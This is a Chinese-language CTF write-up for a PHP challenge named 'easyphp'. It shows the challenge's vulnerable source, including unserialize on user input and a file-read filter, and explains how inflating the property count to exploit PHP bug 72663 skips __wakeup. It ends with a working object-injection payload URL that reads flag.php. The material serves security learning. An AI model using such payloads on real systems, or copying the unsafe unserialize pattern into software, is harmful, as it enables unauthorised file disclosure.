

# 网络内生安全试验场——CTF答题夺旗赛（第二季）

# easyphp

## Analyze

查看网页源码

	<html>
		<head>
		</head>
		<body>
			
		</body>
	</html>

访问页面时发现有一张图片，查看图片地址

	http://120.55.43.255:13005/show.php?img=aGludC5qcGc=

`aGludC5qcGc=`base64解码得到`hint.jpg`，由此可以得知`show.php`是将参数`img`经base64解码得到的值进行读文件操作。

尝试使用

	php://filter/read=convert.base64-encode/resource=index.php

base64解码值读取源码

	http://120.55.43.255:13005/show.php?img=cGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPWluZGV4LnBocA==

返回"File not found!"。。。

## Get Source

纠结了一下下，不知道是怎么回事，然后又尝试直接将`index.php`base64编码，可看到注释掉的php源码，居然成功了，看来是想复杂了。

上源码：

index.php

	<?php 
	  require_once('hint.php');
	  $x = new hint();
	  isset($_GET['class']) && $g = $_GET['class'];
	  if (!empty($g)) {
	    $x = unserialize($g);
	    echo $x;
	  }
	?>

发现hint.php

	<?php
	  error_reporting(0);
	  //flag is in flag.php
	  class hint
	  { 
	    public $file='';
	    function __destruct()
	    { 
	      if(!empty($this->file)) 
	      {
	       if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
	          show_source(dirname (__FILE__).'/'.$this ->file);
	       else      die('Wrong filename.');
	      }
	    }  
	    function __wakeup(){ 
	      $this-> file='index.php'; 
	    } 
	    public function __toString(){
	      return '' ;
	    }
	  } 
	?>

源码中的注释部分提示flag在flag.php中

想尝试用show.php直接读取flag.php，分析show.php：

	<?php
	  $f = $_GET['img'];
	  if (!empty($f)) {
	    $f = base64_decode($f);
	    if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
	    && stripos($f,'flag')===FALSE) {
	      readfile($f);
	    } else {
	      echo "File not found!";
	    }
	  }
	?>

发现`flag`被过滤了，而且`/`也被绕过了，这也是为什么之前使用`php://filter`出错的原因。

尝试绕过，不过过滤比较严格，绕过有点难度，转而分析其他两个文件。

## Unserialize

涉及到**反序列化**：`$x = unserialize($g);`,发现在hint.php中

	function __destruct()
    { 
      if(!empty($this->file)) 
      {
       if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
          show_source(dirname (__FILE__).'/'.$this ->file);
       else      die('Wrong filename.');
      }
    } 

存在文件读取，可以构造**Payload**使得`$this-> file = "flag.php"`，由

	<?php
	  error_reporting(0);
		//flag is in flag.php
		class hint{ 
	    public $file='';
	    function __destruct(){ 
	      if(!empty($this->file)) {
	       if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
	          show_source(dirname (__FILE__).'/'.$this ->file);
	       else      die('Wrong filename.');
	      }}  
	    function __wakeup(){ $this-> file='index.php'; } 
	    public function __toString(){return '' ;}
	  } 
	  $a = new hint();
	  $a->file = "flag.php";
	  echo serialize($a);

得到字符串 `O:4:"hint":1:{s:4:"file";s:8:"flag.php";}`，但是这样并不能读取到flag.php文件，因为在序列化时，`__wakeup()`函数又会将`"index.php"`赋值给`$this-> file`.

这里涉及的另一个知识，是php本身的一个bug，详细信息可以查询[`php bug 72663`](https://www.baidu.com/s?wd=php%20bug%2072663)，这个 bug 的原理是：当反序列化字符串中，表示**属性个数的值大于真实属性个数**时，会跳过`__wakeup` 函数的执行。

于是将hint值改为2

Payload：

	http://120.55.43.255:13005/index.php?class=O:4:"hint":2:{s:4:"file";s:8:"flag.php";}

